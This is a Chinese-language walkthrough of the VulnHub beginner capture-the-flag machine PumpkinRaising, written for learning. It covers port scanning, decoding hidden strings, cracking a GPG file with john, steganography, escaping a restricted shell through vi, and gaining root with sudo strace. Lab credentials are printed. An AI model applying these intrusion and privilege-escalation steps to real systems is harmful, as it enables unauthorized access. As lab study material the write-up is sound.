



# PumpkinRaising-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/mission-pumpkin-v10-pumpkinraising,324/

**Description**

Mission-Pumpkin v1.0 is a beginner level CTF series, created by keeping beginners in mind. This CTF series is for people who have basic knowledge of hacking tools and techniques but struggling to apply known tools. I believe that machines in this series will encourage beginners to learn the concepts by solving problems. PumpkinRaising is Level 2 of series of 3 machines under Mission-Pumpkin v1.0. The Level 1 ends by accessing PumpkinGarden_Key file, this level is all about identifying 4 pumpkin seeds (4 Flags - Seed ID’s) and gain access to root and capture final Flag.txt file.

**知识点**
- 字符加解密
- 流量分析
- GPG爆破
- rbash逃逸
- 图片隐写

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```


排除法,去掉自己、宿主机、网关,这里 `192.168.141.129` 是靶机的地址。

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.129
```


web 和 ssh,先看看 web


源码中有段 base64,解出来不是关键内容


同时有个链接 http://192.168.141.129/pumpkin.html ,查看下里面源码


里面这段是 base32,我拿64解了半天


下载这个流量文件,wireshark 分析一下，Ctrl+Alt+Shift+T,切换跟踪 tcp 流


其中提到了种子 ID 50609,先记着,之后应该会用的到。

同时 http://192.168.141.129/pumpkin.html 页面最底端还有一串字符



hex 解一下

```
Yay! Appreciate your patience :)
All things are difficult before they become easy.
Acorn Pumpkin Seeds ID: 96454

Do, remember to inform Jack to plant all 4 seeds in the same order.
```

种子 ID:96454

在 robots 文件中，发现它提供了一些信息,访问 http://192.168.141.129/robots.txt



下面3个url都有内容
- http://192.168.141.129/underconstruction.html
- http://192.168.141.129/hidden/note.txt
- http://192.168.141.129/seeds/seed.txt.gpg

先看下 note.txt


看上去像是账号密码,ssh 试了下，都无法登录

说不定可以用来解 seed.txt.gpg,试下
```
wget http://192.168.141.129/seeds/seed.txt.gpg
gpg --decrypt seed.txt.gpg
```

解不了,尝试用 john 跑出来
```bash
gpg2john seed.txt.gpg > hash
john hash
john --wordlist=wordlist.txt hash   # 随便找了字典尝试,没有跑出来
```

搜了下别人的 walkthrough,密钥是 SEEDWATERSUNLIGHT ,是首页下面三个单词的组合...^w^

输入密钥看下内容


下面部分是莫斯电码


```
YOU ARE ON THE RIGHT PATH... BIGMAXPUMPKIN SEEDS ID: 69507
```

种子 ID : 69507

访问 http://192.168.141.129/underconstruction.html


按小标题的意思,可能有内容在图片中,做到图片隐写了

一开始我使用 uc.gif,然后发现其实是 http://192.168.141.129/images/jackolantern.gif

工具地址 : https://stegosuite.org/ ,密码是之前 note.txt 中的 Qn@F5zMg4T




种子ID : 86568

到目前为止,有4个种子
```
50609
96454
69507
86568
```

在 note.txt 中有个 `goblin : 79675-06172-65206-17765`

这4个种子应该也可以这么组合,说不定是 SSH 的密码,带 `-` 和不带 `-` 都试试

最后结果是
```
jack: 69507506099645486568
```

连接上去是个 rbash


使用 vi 进行逃逸
```
vi

:set shell=/bin/sh
:shell

python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

---

# 提权

搜集信息,尝试提权
```
sudo -l
```


参考 strace 提权 https://gtfobins.github.io/gtfobins/strace/
```bash
sudo strace -o /dev/null /bin/sh
```

提权成功


